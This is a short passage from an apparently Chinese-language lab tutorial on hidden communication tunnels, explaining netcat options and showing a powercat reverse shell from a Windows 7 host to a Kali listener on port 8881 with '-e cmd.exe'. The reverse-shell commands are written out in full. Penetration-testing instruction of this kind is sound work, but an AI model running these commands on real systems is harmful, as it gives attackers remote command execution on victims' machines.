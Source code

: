 * -l：监听模式，用于入站连接
* -p：指定监听端口
* -e：指定要启动的进程名称
* -v：显示详情

（3）通过nc反向连接Powercat

在Kali中执行如下命令：

```
netcat -l -p 8881 -vv
```

![](/assets/img/隐藏通信隧道基础知识/49.png)

然后在Windows7中执行如下命令，-c参数用于提供想要连接的IP地址：

```
powercat -c 192.168.2.7 -p 8881 -v -e cmd.exe
```

![](/assets/img/隐藏通信隧道基础知识/50.png)
